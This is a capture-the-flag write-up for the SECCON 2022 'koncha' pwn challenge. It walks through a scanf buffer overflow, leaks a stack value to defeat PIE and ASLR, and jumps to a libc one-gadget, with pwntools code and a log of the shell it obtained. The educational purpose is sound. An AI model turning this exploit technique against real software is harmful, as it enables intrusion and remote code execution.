 # SECCON 2022

## koncha

koncha was a easy pwn challenge from SECCON 2022 quals

## Analysis

### checksec

```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

### file command output

```bash
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ld-2.31.so, BuildID[sha1]=444af262ad4af23ccec1cb9e3c7314c3b225a9ed, for GNU/Linux 3.2.0, not stripped
```

### Code

In this challenge the source code was provided, so reverse will be done quickly.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char name[0x30], country[0x20];

  /* Ask name (accept whitespace) */
  puts("Hello! What is your name?");
  scanf("%[^\n]s", name);
  printf("Nice to meet you, %s!\n", name);

  /* Ask country */
  puts("Which country do you live in?");
  scanf("%s", country);
  printf("Wow, %s is such a nice country!\n", country);

  /* Painful goodbye */
  puts("It was nice meeting you. Goodbye!");
  return 0;
}

__attribute__((constructor))
void setup(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  alarm(180);
}
```

It is easy to see that this is a program that asks the user for its name and contry, prints some welcome and goodbye messages and returns. The vulnerability is also obvious. Both scanfs expose a buffer overflow vulnerability since:
  
- The first scanf will read until a new line ('\n') is found, without any caracter number limits
- The second scanf will read until a white caracter is found (space, new line or null byte), without any caracter limits.

This simply shows that this is a simple return to one gadget challenge.  
However, this binary has PIE turned on and we must assume ASLR is enabled on the host machine, thus we need leaks to bypass this mitigations in order to performed the usuall exploit.  

## Exploit

### PIE and ASLR leak

The only way to have a leak, would be to force the printfs to leak stack values. Since scanf always writes a null byte the end of a string, there won't be any non null terminated strings for printf to leak values. For this reason, one of the scanfs needs to fail, so that nothing is written on the buffers and printf prints the buffers as they were initialized. From scanf's man page:

```text
The set excludes those characters if the first character after the open bracket is a
circumflex ^
```

Therefore, passing a single '\n' will prevent scanf from writing on the buffer, and, consequently the printf will leak a stack value (note that the buffers were allocated in the stack, meaning that they will leak a stack value). This beats PIE and ASLR, as we can compute our targeted destinations as offsets of this leak. Bellow is the code for obtaining the leak and parsing it.

```python
io.sendline()
io.recvline()
line = io.recvline(keepends=True)[:-2].split(b' ')
leak = u64(line[-1].ljust(8,b'\x00'))
log.info(f"Leaked {hex(leak)}")
log.info(f"One gadget is at offset {hex(leak - OFFSET)}")
```

### Shell

Since PIE and ASLR was beaten, all that is left to do is overflow the country buffer (using the second scanf), overwrite main's return address and jump to one gadget. However, first we need to choose a one gadget to jump to

```text
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

I chose the second one gadget, because at the time main returns all its constrains were already met. I calculated that the one gadget is always at an offset of -0x10d7e7 from the leak that we obtained. Note that the other one gadgets might be possible to use, however they might require aditional gadgets to ensure the constrains are met.  
As you can see bellow I got a shell and the flag.

```python
def overflow():
        p = '1'*(0x60-8)
        return p.encode()
io.sendline(overflow() + p64(leak - OFFSET))
io.interactive()
```

This is just the overflow and RCE part of the exploit.

```bash
[+] Opening connection to koncha.seccon.games on port 9001: Done
[*] Leaked 0x7fc6acd3b2e8
[*] One gadget is at 0x7fc6acc2db01
[*] Switching to interactive mode
$ cat flag-50d05c4f3e767dfc58f5cde347c36370.txt
SECCON{I_should_have_checked_the_return_value_of_scanf}
```
